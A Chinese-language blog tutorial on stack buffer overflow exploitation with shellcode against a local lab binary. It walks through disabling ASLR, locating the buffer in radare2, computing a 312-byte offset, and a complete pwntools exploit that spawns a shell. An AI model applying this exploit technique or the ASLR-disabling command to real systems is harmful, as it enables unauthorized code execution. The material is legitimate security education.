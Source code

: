 ```yaml
---
title: shellcode
subtitle: 运行你自己的指令
date: 2023-08-08T05:09:08+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


在真正的漏洞利用中，你不太可能拥有 `win()` 函数。shellcode 是一种允许 **运行你自己的
指令** 的方法，使你能够在系统上运行任意命令。

**shellcode** 本质上是 **一系列汇编指令**，一旦我们将它输入到二进制文件中，它就会覆盖返回
地址（返回指针）以劫持代码，并执行我们自己的指令。

<!--more-->

{{<admonition type="warning">}}

我保证你可以相信我，但你永远不应该在不知道 shellcode 作用的情况下运行它。
pwntools 很安全，并且几乎拥有你需要的所有 shellcode 。

{{</admonition>}}

shellcode 成功的原因是 [冯·诺伊曼结构](https://zh.wikipedia.org/wiki/%E5%86%AF%C2%B7%E8%AF%BA%E4%BC%8A%E6%9B%BC%E7%BB%93%E6%9E%84)（当今大多数计算机使用的体系结构）不区分
数据和指令——无论你告诉它在哪里运行或运行什么内容，它都会尝试运行它。因此，
即使我们输入的是攻击指令，计算机也不知道这一点，我们可以利用它来发挥我们的优势。

{{< link href="/pwn_assets/shellcode.zip" content="shellcode.zip" title="Download shellcode.zip" download="shellcode.zip" card=true >}}

## 0x01 禁用 ASLR

ASLR 是一种安全技术，虽然它不是专门为对抗 shellcode 而设计的，但它涉及随机化
内存的某些方面，可以看我的这篇博客：[NOPs](https://www.cubeyond.net/nops/) 。这种随机化可能会使我们的 shellcode
变得不可靠，所以我们现在将 [禁用](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) 它。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

{{<admonition type="info">}}

类似这样的功能性指令以后还会碰到更多，我建议使用 `alias` 为它们创建一个别名。
因为就算不考虑能不能记住这些指令，如果每次都手动输入那么长的指令也是一件很
浪费时间的事情。

{{</admonition>}}

{{<admonition type="warning">}}

再次强调，如果你不知道指令的作用，则永远不要运行该指令。

{{</admonition>}}

## 0x02 确定缓冲区位置

使用 `radare2` 调试 `vuln()` ，并找出缓冲区在内存中的起始位置；这就是我们
想要将返回地址指向的位置。

```
$ r2 -d -A ./vuln

[0xf7fe3fd0]> s sym.unsafe; pdf
[...]
; var int32_t var_134h @ ebp-0x134
[...]
```

打印出来的这个值是一个 **局部变量**。根据它的大小，可以判断出它很可能是缓冲区。
让我们在 `gets()` 之后设置一个断点并找到确切的返回地址。

```
[0x08049172]> db 0x080491a8
[0x08049172]> dc
Overflow me
<<IM HERE>>         <== This was my input
INFO: hit breakpoint at: 0x80491a8
[0x080491a8]> px @ ebp-0x134
- offset -  B4B5 B6B7 B8B9 BABB BCBD BEBF C0C1 C2C3  456789ABCDEF0123
0xffffd6b4  3c3c 494d 2048 4552 453e 3e00 2e4e 3df6  <<IM HERE>>..N=.
[...]
```

它似乎位于 `0xffffd6b4`；如果我们多次运行二进制文件，它应该保持在原来的位置
（如果没有，请确保 **禁用 ASLR！**）。

## 0x03 计算溢出 Padding

现在我们需要计算溢出 Padding 。我们将使用 De Bruijn 序列，如上一篇博客文章中所述。

```
$ ragg2 -r -P 500
<COPY THIS>

$ r2 -d -A ./vuln
[0xf7fe3fd0]> dc
Overflow me
<<PASTE HERE>>
[0x73424172]> wopO `dr eip`
312
```

得到溢出 Padding 是 312 字节。

## 0x04 编写 EXP

为了使 shellcode 正确，我们将把 `context.binary` 设置为我们的二进制文件；
这会获取诸如架构、操作系统和位数之类的东西，并使 pwntools 能够为我们提供
shellcode 。

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()
```

{{<admonition type="info">}}

我们可以只使用 `process()` ，因为一旦设置了 `context.binary` 就默认假定
使用该进程。

{{</admonition>}}

现在我们可以使用 pwntools 出色的 shellcode 功能轻易的构建 shellcode 。

```python
# 构建 Shellcode
payload = asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# 返回地址
payload += p32(0xffffd6b4)
```

现在让我们将其发送出去并使用 `p.interactive()`，它使我们能够与 shell 通信。

```python
log.info(p.clean())

p.sendline(payload)

p.interactive()
```

{{<admonition type="warning">}}

如果你遇到 `EOFError`，请打印出 shellcode 并尝试在内存中查找它。
栈地址可能是错误的。

你可以参考这篇 [博客](https://www.cubeyond.net/ret2win/) 中的方法来解决这个问题。

{{</admonition>}}

```
$ python3 exp.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 3903
[*] Overflow me
[*] Switching to interactive mode
$ whoami
cub3y0nd
$ ls
exp.py  source.c  vuln
```

## 0x05 最终 EXP

```python {title="exp.py"}
from pwn import *

context.binary = ELF('./vuln')

p = process()

# 构建 shellcode
payload = asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# 返回地址
payload += p32(0xffffd6b4)

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

## 0x06 总结

- 当提示输入时，我们注入了 shellcode
- 然后，我们通过覆盖栈上保存的返回地址以指向我们的 shellcode
来劫持代码执行
- 一旦返回地址压入 EIP 中，它就指向我们的 shellcode
- 这导致程序执行我们的指令，为我们（在本例中）提供了用于执行
任意命令的 shell
